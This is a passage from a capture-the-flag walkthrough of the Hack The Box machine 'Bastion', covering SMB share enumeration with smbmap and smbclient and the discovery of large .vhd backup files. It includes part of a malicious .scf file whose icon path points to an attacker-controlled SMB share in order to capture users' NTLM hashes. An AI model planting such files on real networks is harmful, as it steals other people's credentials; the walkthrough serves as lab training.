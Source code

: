 Command=2

IconFile=\\\\10.13.37.2\\share\\0xd4y.ico

\[Taskbar\]

Command=ToggleDesktop

Whenever a user browses to this file, Windows will attempt to authenticate to our share with the credentials of the user, meaning that we can capture these credentials (albeit the password is hashed). The fact that we have write access to a directory containing backups is especially alarming, as which users would normally access such a directory? Probably domain admins. There is an excellent article on this topic that I highly recommend you read ([https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/](https://www.google.com/url?q=https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/&sa=D&source=editors&ust=1653959269091618&usg=AOvVaw0pGdwROOMk11BRZjNFPYMF)). Anyways, this is most likely not intended by the author because Bastion is an easy box and there are no real users on the system to execute the .scf file (as this is just a box rather than a real attack).

The other thing that stands out is this smbmap message:

\[\\\] Work\[!\] Unable to remove test directory at \\\\bastion.htb\\Backups\\GZHGUJOWDT, please remove manually

The smbmap tool knows that we have write access to \\Backups because it was able to write to it. However, the fact that it was not able to remove it shows that this created directory could be a way for defenders to find out that someone may be up to something malicious. In a real penetration testing environment, it may be more wise to use smbclient -L -U guest bastion.htb which lists the shares, but does not list the permissions:

![](/reports/Bastion/image17.png)

Ok, enough stalling. Let's just see what’s inside this \\Backups directory. I created a /smb directory on my machine (so that if I download a file it goes straight to the /smb directory) and connected to the SMB share:

smbclient -U guest //bastion.htb/Backups

![](/reports/Bastion/image6.png)

I downloaded the note.txt file using get note.txt and viewed it on my host machine.

![](/reports/Bastion/image20.png)

This file is a hint that there is probably a large backup file somewhere in this SMB share. Let’s keep enumerating! Eventually you’ll find the following directory:

![](/reports/Bastion/image14.png)

Incidentally, we know that there is probably a user named L4mpje on the system (it is always important to save information like this in a file where you keep your notes). Two files here stand out (first there were two ports that stood out, then two interesting things with the SMB share, now this...why are there always two things that stand out??). The .vhd (virtual hard disk) files are quite conspicuous; these files are absolutely massive! One is about 37MB while the other one is 5.4GB and are no doubt the backup files that the note.txt message was referring to. I foolishly downloaded both files and inspected them when I was first going through this machine, so let’s see how to view these files without waiting a million years for them to finish installing.
